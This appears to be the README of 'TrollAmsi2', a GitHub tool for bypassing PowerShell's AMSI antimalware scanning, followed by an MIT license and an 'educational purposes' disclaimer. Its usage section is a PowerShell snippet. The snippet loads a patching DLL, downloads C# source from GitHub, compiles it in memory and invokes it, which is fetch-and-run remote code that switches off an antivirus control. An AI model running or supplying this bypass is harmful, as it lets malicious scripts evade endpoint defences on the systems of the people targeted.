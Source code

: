 # TrollAmsi2
Bypass powershell amsi 
  
## Usage 
```
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()
```

## MIT License
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
